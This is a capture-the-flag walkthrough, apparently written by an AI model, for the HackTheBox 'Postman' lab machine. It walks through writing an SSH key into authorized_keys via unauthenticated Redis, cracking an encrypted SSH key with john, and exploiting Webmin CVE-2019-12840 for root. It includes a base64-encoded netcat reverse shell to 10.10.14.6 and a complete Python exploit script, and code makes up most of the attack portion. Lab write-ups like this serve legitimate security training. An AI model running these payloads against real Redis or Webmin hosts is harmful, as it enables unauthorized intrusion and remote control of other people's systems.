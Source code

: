 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)](Easy)
**Tags:** `redis`, `Webmin`, `ssh`, `key cracking`, `privesc`, `CVE-2019-12840`

---

## 📡 Recon

### Nmap Scan

```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.160
nmap -p 22,80,6379,10000 -sC -sV -oA scans/nmap-tcpscripts 10.10.10.160
```

- **Ports:**  
  - `22/tcp`: [OpenSSH 7.6](SSH)
  - `80/tcp`: [Apache 2.4.29](HTTP.md)
  - `6379/tcp`: Redis 4.0.9  
  - `10000/tcp`: Webmin (MiniServ 1.910)  

---

## 🌐 Web Enumeration

### Port 80

- Basic HTML page (under construction)
- Gobuster:

```bash
gobuster dir -u http://10.10.10.160 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -x php
```

- Found: `/upload`, `/images`, `/fonts`, `/css`, `/js` — but all uninteresting

### Port 10000 (Webmin)

- Webmin login on HTTPS
- Hostname: `postman` from redirect
- Default login page shown
- No useful links via HTTP

---

## 🔧 Redis Enumeration (TCP 6379)

### Basic Commands

```bash
redis-cli -h 10.10.10.160
> keys *
> config get dir
> config set dir ./.ssh
```

### Inject SSH Key

```bash
ssh-keygen -f ~/id_rsa_generated
(echo -e "\n\n"; cat ~/id_rsa_generated.pub; echo -e "\n\n") > spaced_key.txt
cat spaced_key.txt | redis-cli -h 10.10.10.160 -x set 0xdf
```

### Save DB to `.ssh/authorized_keys`

```bash
redis-cli -h 10.10.10.160
> config set dbfilename "authorized_keys"
> save
```

---

## 🐚 Shell as redis

```bash
ssh -i ~/id_rsa_generated redis@10.10.10.160
```

✅ Shell as `redis`  
🧾 Look for `.ssh/authorized_keys` to confirm injection

---

## 👤 Priv Esc: redis → Matt

### Found Encrypted SSH Key

```bash
ls -l /opt/id_rsa.bak
```

### Crack Key

```bash
/opt/john/run/ssh2john.py id_rsa.bak > id_rsa.john
john id_rsa.john --wordlist=/usr/share/wordlists/rockyou.txt
# Passphrase: computer2008
```

### Cannot SSH (Denied in `/etc/ssh/sshd_config`)

```bash
# grep DenyUsers /etc/ssh/sshd_config
DenyUsers Matt
```

### Switch User with `su`

```bash
su Matt
# Password: computer2008
```

✅ Shell as `Matt`  
📄 `cat /home/Matt/user.txt`

---

## 🔓 Priv Esc: Matt → root (via Webmin)

### Login to Webmin

```bash
https://10.10.10.160:10000/
# Username: Matt
# Password: computer2008
```

✅ Access only to “Package Updates” module

### Exploit: CVE-2019-12840 (Webmin RCE)

- POST to:

```http
POST /package-updates/update.cgi
```

- Data:

```http
u=acl/apt
u= | bash -c "base64 payload | base64 -d | bash"
ok_top=Update Selected Packages
```

### Reverse Shell Payload (Base64 Encoded)

```bash
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.6 443 >/tmp/f' | base64
```

### Python Exploit Example

```python
import requests
import html
import re

s = requests.session()
s.post('https://10.10.10.160:10000/session_login.cgi',
       data={'page':'', 'user':'Matt', 'pass':'computer2008'},
       verify=False)

payload = 'echo cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTAuMTAuMTQuNiA0NDMgPi90bXAvZgo=|base64 -d|bash -i'

resp = s.post('https://10.10.10.160:10000/package-updates/update.cgi',
              data=[('u','acl/apt'), ('u', f' | bash -c "{payload}"'), ('ok_top','Update Selected Packages')],
              headers={'Referer':'https://10.10.10.160:10000/'},
              verify=False)

print(html.unescape(re.findall('<pre>(.*)</pre>', resp.text, re.DOTALL)[0]))
```

---

## ⚙️ Shell as root

```bash
nc -lvnp 443
```

✅ Reverse shell connects as root  
📄 `cat /root/root.txt`

---

## 🧠 Beyond Root: Why Metasploit Redis Exploit Failed

### Exploit:

```bash
use exploit/linux/redis/redis_unauth_exec
```

### Issue:

- Redis throws:

```
-ERR unknown command 'MODULE'
```

### Reason:

```bash
grep MODULE /etc/redis/redis.conf
rename-command MODULE ""
```

✅ Redis `MODULE` command is **disabled**

---

Let me know if you'd like this in collapsible Obsidian format or with code snippets styled for GitHub readmes!